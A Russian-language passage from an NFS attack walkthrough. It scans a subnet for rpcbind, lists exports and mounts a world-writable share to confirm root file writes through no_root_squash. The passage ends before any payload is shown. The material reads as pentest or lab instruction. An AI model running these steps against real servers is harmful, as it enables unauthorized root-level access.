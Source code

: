 #### Шаг 1: Обнаружение и анализ (Discovery)
> Найти уязвимые NFS-серверы и проверить их конфигурацию.
```bash
# Сканирование сети на NFS-серверы
nmap -sU -p111 --open 192.168.1.0/24 -oG nfs-servers.txt

# Проверка экспортированных директорий
showmount -e 192.168.1.100
# Вывод:
# Export list for 192.168.1.100:
# /scripts  (everyone)
# /data     (ro,192.168.1.0/24)
```

**Пояснения:**
1. `nmap -sU -p111`: UDP-сканирование порта 111 (rpcbind), который всегда используется NFS
2. `--open`: Показать только открытые порты
3. `-oG nfs-servers.txt`: Сохранить результаты в grep-формате
4. `showmount -e`: Показать экспортированные директории на конкретном сервере

**Результат:**  
Директория `/scripts` экспортирована для всех (`everyone`) с правами чтения/записи.

---

#### Шаг 2: Подготовка к атаке (Privilege Escalation)
> Получить возможность создавать файлы от имени root на сервере.
```bash
# Монтирование директории
mkdir -p /mnt/nfs_scripts
sudo mount -t nfs -o vers=3,nolock,proto=tcp,uid=0,gid=0 192.168.1.100:/scripts /mnt/nfs_scripts

# Проверка доступа
echo "Test file" | sudo tee /mnt/nfs_scripts/test_file  # Создание тестового файла
ls -n /mnt/nfs_scripts/test_file  # Проверка владельца
# Вывод:
# -rw-r--r-- 1 0 0 9 Jun 15 12:30 test_file 
# (UID=0, root)
```

**Пояснения:**
1. `mkdir -p`: Создает точку монтирования (если не существует)
2. Параметры монтирования командой `mount`:
   - `vers=3`: Версия протокола NFS
   - `nolock`: Отключить блокировки (упрощает эксплуатацию)
   - `proto=tcp`: Использовать TCP вместо UDP (надежнее)
   - `uid=0,gid=0`: Принудительно устанавливать владельца файлов как root
3. `tee`: Создать тестовый файл и вывести содержимое
4. `ls -n`: Показать UID/GID файла (0 = root)

**Результат:**  
Опция `no_root_squash` в `/etc/exports` позволяет сохранять root-права при записи файлов.

---
